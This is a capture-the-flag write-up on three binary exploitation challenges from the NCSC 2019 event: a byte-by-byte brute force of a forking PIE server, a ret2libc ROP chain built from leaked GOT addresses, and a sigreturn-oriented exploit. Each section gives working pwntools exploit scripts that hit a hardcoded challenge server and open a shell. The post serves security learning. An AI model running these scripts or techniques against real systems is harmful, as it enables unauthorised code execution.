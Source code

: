 ```yaml
---
layout: post
title:  "NCSC 2019 - pwn"
author: "Rettila"
tags: NCSC pwn srop stack overflow
---
```


Hi, this post will cover some binary exploitation tasks that we solved during the first edition of the National Cyber Security Congress organized by Securinets.

## Bruter
The binary was PIE enabled as we can see by running `checksec ./bruter`
{% highlight console %}
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
{% endhighlight %}
This protection (PIE) combined to ASLR results in full randomization (or not) of the program's address space.

The first bug is a call to fork function: after a fork, both parent and child will have the same address layout.

The second bug is a call to read in `handle_child` function: the program reads 0x400 bytes of user input but saved rbp is only 0x10 bytes away from our our buffer start.
{% highlight console %}
|           0x00000e5a      ba00040000     mov edx, 0x400
|           0x00000e5f      4889ce         mov rsi, rcx
|           0x00000e62      89c7           mov edi, eax
|           0x00000e64      e817fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x00000e69      90             nop
|           0x00000e6a      c9             leave
\           0x00000e6b      c3             ret
{% endhighlight %}
So, if we are able to overflow the buffer and overwrite rbp and the return address then we have control over rip and the execution flow.

Our goal is to execute `get_shell`
{% highlight console %}
/ (fcn) sym.get_shell 31
|   sym.get_shell ();
|           0x00000da0      55             push rbp
|           0x00000da1      4889e5         mov rbp, rsp
|           0x00000da4      488d3d0d0400.  lea rdi, str.Solved         ; 0x11b8 ; "Solved!!!"
|           0x00000dab      e850fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00000db0      488d3d0b0400.  lea rdi, str.bin_bash_2__4_1__4___4 ; 0x11c2 ; "/bin/bash 2>&4 1>&4 <&4"
|           0x00000db7      e864fdffff     call sym.imp.system         ; int system(const char *string)
|           0x00000dbc      90             nop
|           0x00000dbd      5d             pop rbp
\           0x00000dbe      c3             ret
{% endhighlight %}
In order to do so, we need to find a valid rbp and the code base defined by the PIE protection. As stated before, the address space is the same at each connexion.

The solution consists in guessing the two parametres (rbp and rip) one byte at once starting from the first rbp byte:

- if the guessed byte value is correct, the program execution will go on and we will receive `Bye` as an answer and we can move to the next byte.

- if not, then we have no output return because the program crashed or jumped to another code location, we can conclude that the guessed byte value was wrong.

Once we have rip, we can calculate the code base and then jump to `get_shell` function.

{% highlight python %}
from pwn import *

server = '51.254.114.246'
port = 9998

i = 16
p = "A"*i
rbp = ''
while len(rbp)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(p+rbp+chr(j))
        out = r.recvall()
        print 'trying rbp: ',rbp+chr(j)
        if "Bye" in out:
            rbp += chr(j)
            r.close()
            break
        r.close()
print "Leaked rbp: ",rbp.encode('hex')


s1 = p+rbp
rip = ''
while len(rip)<8:
    for j in range(256):
        r = remote(server,port)
        r.send(s1+rip+chr(j))
        out = r.recvall(timeout = 1)
        print 'trying rip: ',rip+chr(j)
        print out
        if "Bye" in out:
            rip += chr(j)
            r.close()
            break
        r.close()

print "rbp",rbp.encode('hex') 
print "rip",rip.encode('hex')

for i in range(0xf):
	r = remote(server,port)
	r.recv()
	get_shell = p64( (u64(rip) & 0xfffffffffffff0000) + (i <<12) + 0xda0)
	payload = s1 + get_shell
	r.sendline(payload)
	try:
		r.sendline('ls')
		print r.recv()
		r.interactive()
	except:
		pass
	r.close()
{% endhighlight %}

## ropper
A classic buffer overflow, we have control over rip after 168 bytes in the vuln function.
ASLR is enabled on the server.
{% highlight console %}
rett@RETTILA:~/ctf/ncsc/pwn$ checksec ropper
[*] '/home/rett/ctf/ncsc/pwn/ropper'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
{% endhighlight %}

We have got some unusual gadgets from the `help_gadgets` function to help us setting our arguments
{% highlight console %}
/ (fcn) sym.help_gadgets 8
|   sym.help_gadgets ();
|           0x00401192      55             push rbp
|           0x00401193      4889e5         mov rbp, rsp
|           0x00401196      5f             pop rdi
|           0x00401197      5e             pop rsi
|           0x00401198      5a             pop rdx
\           0x00401199      c3             ret
{% endhighlight %}
To find out the libc version and base, we started by leaking two adresses of libc using the following payload

stage1 : `padding + pop rdi , rsi and rdx + 0x1 + write from the GOT table + 0x8 + write from the PLT table + vuln address`

stage2 :`padding + pop rdi , rsi and rdx + 0x1 + printf from the GOT table + 0x8 + write from the PLT table`

which results in the execution of the following functions:

`write(1,write_got,8) --> call to vuln function again` and then `write(1,printf_got,8)`

By checking [libc database search][libc_id_link] , we can easily determine libc version and the the system function and `/bin/sh` string offsets from the libc.

Second execution payload will contain:

stage1 : `padding + pop rdi , rsi and rdx + 0x1 + write from the got table + 0x8 + write from the PLT table +  vuln address`

stage2 :`padding + pop rdi , rsi and rdx ( too lazy to look for pop rdi ) + calculated '/bin/sh' string address + 0x0 + 0x0 + calculated system address`

Too lazy to clean the code, so i put both of the steps in one script

{% highlight python %}
from pwn import *

pop_rdi_rsi_rdx = 0x00401196
vuln = 0x00401259
write_plt = 0x00401040 
write_got = 0x0404020
printf_got = 0x404030

r = remote('51.254.114.246', 3333)
r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(write_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_write = u64(out[len(out)- 8:])

print hex(leak_write)
print out

r.recv()

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(1)
p += p64(printf_got)
p += p64(8)
p += p64(write_plt)
p += p64(vuln)
r.send(p)
out = r.recvuntil('Gi')
out = out[:len(out)-2]
leak_printf = u64(out[len(out)- 8:])

print hex(leak_printf)

base = leak_printf - 0x055800
system = base + 0x045390
binsh = base + 0x18cd57

p = 'A'*168
p += p64(pop_rdi_rsi_rdx)
p += p64(binsh)
p += p64(0)
p += p64(0)
p += p64(system)
r.send(p)

r.interactive()
r.close()
{% endhighlight %}

## signal
A binary containing very few code that reads user input to the top of the stack and calls for sigreturn (rax set to 0xf).

{% highlight python %}
/ (fcn) entry0 23
|   entry0 ();
|           0x00401000      31c0           xor eax, eax                ; [08] m-r-x section size 36 named LOAD1
|           0x00401002      31ff           xor edi, edi
|           0x00401004      31d2           xor edx, edx
|           0x00401006      b604           mov dh, 4
|           0x00401008      4889e6         mov rsi, rsp
|           0x0040100b      0f05           syscall
|           0x0040100d      31ff           xor edi, edi
|           0x0040100f      6a0f           push 0xf                    ; rax
|           0x00401011      58             pop rax
|           0x00401012      0f05           syscall
|           0x00401014      cd03           int 3
            ;-- rip:
\           0x00401016      c3             ret
{% endhighlight %}

All we need to do is to read the flag at address 0x00402000
{% highlight console %}
0x00402000 36 str.Securinets_Flag_is_in_remote_server
{% endhighlight %}

The supplied input is our constructed sigreturn frame containing a call to write(1, flag address, 50)

{% highlight python %}
from pwn import *

context.clear(arch="amd64")

#~ r = remote('51.254.114.246',2222)
r = process('./pwn_c')

frame = SigreturnFrame(kernel="amd64") 
frame.rax = 1 
frame.rdi = 1 
frame.rsi = 0x00402000 
frame.rdx = 50 
frame.rsp = 0x41414141
frame.rip = 0x00401012 
payload = str(frame)
r.send(payload)
print r.recvall(timeout=1)
{% endhighlight %}

[libc_id_link]:https://libc.blukat.me/
